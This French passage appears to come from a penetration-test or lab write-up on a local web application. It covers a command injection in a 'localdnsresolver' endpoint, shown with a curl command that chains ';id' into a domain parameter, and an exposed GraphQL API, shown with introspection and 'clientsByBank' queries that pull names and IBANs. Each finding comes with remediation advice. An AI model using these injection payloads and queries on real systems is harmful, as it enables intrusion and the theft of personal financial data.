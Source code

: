 La page concernée ici est localdnsresolver, l'url n'a cependant pas encore pu être trouvée en utilisant des wordlist ( à l'étape de la reconnaissance ), mais a pu être observée à plusieurs reprises dans des fichiers de logs.

Elle peut être éxploitée car l’application ne filtre pas correctement les entrées utilisateurs. 

Après avoir tenté un dirb pour trouver un paramètre valide, on comprend que la requête s'attend à recevoir une entrée sous forme de domaine, et on trouve une vulnérabilité éxploitable en ajourant un séparateur ";", ce qui nous permet par la suite d'injecter des commandes.

---> curl -k "https://localhost:3000/localdnsresolver?i=www.support.com;id" -H "Authorization: Bearer (TokenHere)

Recommandation : Ne jamais insérer de chaînes utilisateur dans une commande shell ( never trust user ). Utiliser des API sécurisées pour DNS, ou échapper correctement les arguments.


###  13. GraphQL (CWE-200)


- Explications: L’interface GraphQL est exposée publiquement. ça permet donc à un attaquant d'éxplorer toute l'API GraphQL.

En éxploitant la page client, on trouve GraphQL, et avec des requêtes curl, on arrive à trouver les tables accessibles
On peut donc éxécuter une query par curl pour récupérer tous les champs disponibles : 

---> curl -k -X POST https://localhost:3000/client \
  -H "Authorization: Bearer token here" \
  -H "Content-Type: application/json" \
  -H "GraphQL-Require-Preflight: 1" \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

La requête ci-dessous est découpée avec des backslash pour faire plus propre, et ne pas tout écrire sur une seule ligne.

---> curl -k -X POST https://localhost:3000/client \
  -H "Authorization: Bearer (TokenHere)" \
  -H "Content-Type: application/json" \
  -H "GraphQL-Require-Preflight: 1" \ 
  -d '{"query":"{clientsByBank(bank:1){id name bank}}"}'

  On récupère ici des données confidentielles sur les employés ( prénoms, banques, iban... ) 

  Il éxiste une query pour récupérer tous les champs disponibles :

 ---> Burp suite :
 
{
  "query": "{ __schema { queryType { name } types { name fields { name } } } }"
}

{

  "query": "{ clientsByBank(bank :1) { id name bank} }"

}
 
Dans un scénario élaboré, on aurait peut être pu entrevoir la possibilité d'une csrf, en admettant qu'on connaisse le noms de leurs banques, qu'on sache que la victime est connectée à sa banque en ligne, l'url du virement, que la protection CSRF soit assez faible...
Mais le message "CSRF_PROTECTION" en réponse, lors de l'éxploitation de la vulnérabilité, nous laisse croire qu'une protection a été prévue pour.

Recommandations : Restreindre les requêtes du genre "__schema", qui permettent d'éxplorer toute l'api, filtrer les champs éxposés selon les rôles, sanitiser les entrées utilisateurs, protection anti CSRF ( graphql-require-prelight ).